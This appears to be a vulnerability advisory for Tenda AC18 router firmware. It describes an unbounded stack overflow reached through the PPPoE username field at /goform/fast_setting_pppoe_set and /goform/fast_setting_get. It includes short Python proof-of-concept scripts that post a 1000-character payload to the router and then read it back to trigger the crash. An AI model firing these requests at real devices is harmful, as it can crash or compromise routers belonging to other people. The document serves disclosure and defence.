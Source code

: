 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/fast_setting_pppoe_set` url. The `Var` variable receives the `username` parameter from a POST request and is stored in the configuration item named`wan1.ppoe.userid` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_232658.png)

`wan1.ppoe.userid`  configuration item can  be retrieved through the GetValue function in the `/goform/fast_setting_get` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows by the `s` variable.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_223700.png)

## PoC

Set `wan1.ppoe.userid`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_pppoe_set"
payload = "a"*1000

data = {"username":payload}
response = requests.post(url, data=data)
print(response.text)
```

Get `wan1.ppoe.userid`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_get"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)